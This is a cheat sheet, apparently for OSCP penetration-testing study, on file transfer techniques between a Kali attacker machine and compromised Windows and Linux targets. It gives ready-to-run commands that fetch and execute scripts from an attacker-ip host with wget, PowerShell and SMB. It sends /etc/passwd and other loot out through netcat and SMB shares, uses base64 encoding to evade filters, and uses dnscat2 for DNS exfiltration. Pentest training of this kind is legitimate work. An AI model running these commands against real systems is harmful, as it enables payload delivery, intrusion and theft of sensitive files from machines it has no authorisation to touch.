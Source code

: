 ## **File Transfer Tools**  

#### **1. SCP (Secure Copy - Over SSH)**  
- Uses SSH for secure file transfers.  
- Example:  
  ```bash
  scp exploit.py user@target-ip:/tmp/
  ```

#### **2. Rsync (Fast File Synchronization)**
- Useful for transferring multiple or large files.  
- Example:  
  ```bash
  rsync -avz exploit.py user@target-ip:/tmp/
  ```

#### **3. Netcat (Simple and Fast Transfer)**
- **Send File:**  
  ```bash
  nc target-ip 4444 < exploit.sh
  ```
- **Receive File:**  
  ```bash
  nc -lvp 4444 > received_exploit.sh
  ```

#### **4. Python HTTP Server**
- Quick and easy method to host files.  
- **On attacker machine:**  
  ```bash
  python3 -m http.server 8080
  ```
- **On target machine:**  
  ```bash
  wget http://attacker-ip:8080/exploit.sh
  ```

---

### **Advanced & Stealthy File Transfer Methods**  

#### **5. Curl & Wget (Built-in Linux Tools)**
- **Download file:**  
  ```bash
  curl -O http://attacker-ip/file
  ```
  or  
  ```bash
  wget http://attacker-ip/file
  ```

#### **6. PowerShell (For Windows Targets)**
- **Download a file using PowerShell:**  
  ```powershell
  Invoke-WebRequest -Uri "http://attacker-ip/file" -OutFile "C:\Users\Public\loot.exe"
  ```

#### **7. SMB (For Windows File Transfers)**
- **On attacker machine (Kali, start SMB server):**  
  ```bash
  impacket-smbserver share $(pwd) -smb2support
  ```
- **On target machine (Windows, download file):**  
  ```powershell
  copy \\attacker-ip\share\exploit.exe C:\Users\Public\
  ```

#### **8. FTP (When SSH & SMB are unavailable)**
- **On attacker machine (Start FTP server)**  
  ```bash
  python3 -m pyftpdlib -p 21
  ```
- **On target machine (Connect to FTP & download file)**  
  ```bash
  ftp attacker-ip
  get exploit.sh
  ```

#### **9. Base64 Encoding (Evade Detection)**
- **Encode file:**  
  ```bash
  base64 exploit.bin > exploit.b64
  ```
- **Transfer via Netcat, SSH, or Email, then decode on target:**  
  ```bash
  base64 -d exploit.b64 > exploit.bin
  ```

#### **10. DNS Exfiltration (Stealth Transfer)**
- **Using `dnscat2` (for bypassing network filters)**  
  ```bash
  dnscat2 attacker-ip
  ```

---
### **OSCP Real-World File Transfer Scenario**  
**Objective:** Transfer an **exploit script** from your **attacker machine (Kali)** to a **compromised target (Windows/Linux)** and retrieve loot files.  

---

## **Scenario 1: Windows Target (PowerShell + SMB Transfer)**
### **Situation:**  
- You have **low-privilege access** on a Windows machine via a **reverse shell**.  
- You need to **upload a privilege escalation script** and **exfiltrate loot files**.  

### **Attack Workflow**
#### **Step 1: Set Up an SMB Share on Kali**  
Use Impacket's `smbserver.py` to host a share on your attacker machine:  
```bash
impacket-smbserver sharename $(pwd) -smb2support
```

#### **Step 2: On Windows (Download File via PowerShell)**
In your Windows shell, execute:  
```powershell
copy \\attacker-ip\sharename\priv_esc.exe C:\Users\Public\priv_esc.exe
```
Then run the exploit:  
```powershell
C:\Users\Public\priv_esc.exe
```

#### **Step 3: Exfiltrate Loot (Upload to Kali via SMB)**  
Copy files back to your attacker machine:  
```powershell
copy C:\Users\Public\loot.txt \\attacker-ip\sharename\loot.txt
```

---

## **Scenario 2: Linux Target (Netcat + Python HTTP Server)**
### **Situation:**  
- You have **a low-privilege shell** on a **Linux machine**.  
- You need to **transfer LinPEAS.sh for privilege escalation** and retrieve a sensitive file.  

### **Attack Workflow**
#### **Step 1: Host the File on Kali (Python HTTP Server)**
On your attacker machine (Kali):  
```bash
cd /tmp
python3 -m http.server 8080
```

#### **Step 2: On the Linux Target (Download LinPEAS)**
From the low-privilege shell:  
```bash
wget http://attacker-ip:8080/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
```

#### **Step 3: Exfiltrate Sensitive Files with Netcat**
On Kali (Listening for incoming file transfer):  
```bash
nc -lvp 4444 > loot.txt
```

On the compromised Linux machine (Sending the file):  
```bash
cat /etc/passwd | nc attacker-ip 4444
```

---

## **Scenario 3: Fully Restricted Environment (Base64 + Netcat)**
### **Situation:**  
- Your target **does not allow direct file downloads** (no `wget`, `curl`, `scp`).  
- **Solution:** Encode the file in **Base64**, transfer via Netcat, and decode on the target.  

### **Attack Workflow**
#### **Step 1: Encode the Exploit on Kali**
```bash
base64 exploit.sh > exploit.b64
```

#### **Step 2: Transfer with Netcat**
On Kali (Listening for transfer):  
```bash
nc -lvp 5555 < exploit.b64
```

On the target (Send file):  
```bash
nc attacker-ip 5555 > exploit.b64
```

#### **Step 3: Decode & Execute on Target**
```bash
base64 -d exploit.b64 > exploit.sh
chmod +x exploit.sh
./exploit.sh
```

---

## **Summary**
| **Scenario** | **Method Used** | **Target OS** | **Stealth Level** |
|-------------|----------------|--------------|----------------|
| Windows PrivEsc | SMB + PowerShell | Windows |  Low (Can be logged) |
| Linux PrivEsc | Python HTTP + Netcat | Linux |  Medium |
| Restricted Transfer | Base64 + Netcat | Linux/Windows |  High (Evades Filters) |

